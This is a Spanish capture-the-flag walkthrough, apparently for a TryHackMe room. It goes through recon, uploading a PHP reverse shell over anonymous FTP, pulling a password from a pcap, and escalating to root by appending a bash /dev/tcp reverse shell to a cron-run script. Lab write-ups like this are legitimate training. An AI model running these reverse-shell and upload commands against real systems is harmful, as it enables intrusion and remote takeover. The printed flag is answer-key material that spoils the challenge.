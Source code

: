 Lo primero que haremos será hacer un nmap con el siguiente comando: 
sudo nmap -A -sV -sC -T4 -p- --defeat-rst-ratelimit 10.10.92.79

Ahora intentamos hacer fuzzing 
gobuster dir -u http://10.10.92.79/ -w /usr/share/wordlists/dirb/big.txt 

Y miramos y hay un /files si accedemos podemos ver que hay un servidor ftp:
Intentamos conectarnos con anonymous con el siguiente comando: 

ftp anonymous@10.10.92.79

![img](img/img01)
 
Una vez dentro haremos un put e intentaremos meter una reverse shell: 
put /home/kali/Desktop/php-reverse-shell.php ./php-reverse-shell.php
Y ahora la ejecutamos y ponemos en escucha nuestro kali linux: 
nc -lvnp 1234 y ya hemos entrado, ahora vamos a upgradear la shell con: 
python -c 'import pty; pty.spawn("/bin/bash")'

![img](img/img02)
 
Y sale que el ingrediente es /love, así que ya tenemos la primera respuesta.
Ahora hacemos un ls y vemos un directorio sospechoso, dentro vemos un pcap, nos lo pasamos a nuestra maquina con el comando: 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp
Y si lo abrimos con el wireshark veremos que hay varias peticiones al puerto 4444, le damos a follow --> TCP Stream y podemos ver algunos comandos donde encontramos la contraseña de lennie.

![img](img/img03)
 
Y ahora intentamos entrar por ssh con el siguiente comando: 
ssh lennie@10.10.92.79 y ya estamos dentro.
 
![img](img/img04)

Si hacemos un cat user.txt vemos la segunda flag la cual es: THM{***************}

Ahora haremos el siguiente comando para ver los binarios: 
find / -perm -u=s -type f 2>/dev/null
Y ahora hacemos un ls -lart y vemos que el script se puede ejecutar como root y que cada minuto se está actualizando, por lo tanto lleva un crontab y una tarea programada.

![img](img/img05)
 
Y buscamos bash reverse shell y lo metemos en el print.sh y ya ponemos el puerto en escucha y hacemos un ls y tenemos la flag.
Usando pspy64 pude ver que planner.sh se ejecuta cada minuto y modifica el contenido de startup_list.txt. 

![img](img/img06)

 
Ahora haremos este comando para modificar /etc/print.sh
echo “bash -i >& /dev/tcp/<attackbox_ip>/<listening_port> 0>&1” >> /etc/print.sh”
Ahora pondremos el comando rlwrap nc .nlvp 4444 y en un minuto tendremos ya la Shell, accedemos con un ls y ya tenemos la flag: THM{f963aaa6a430f210222158ae15c3d76d}

![img](img/img07)
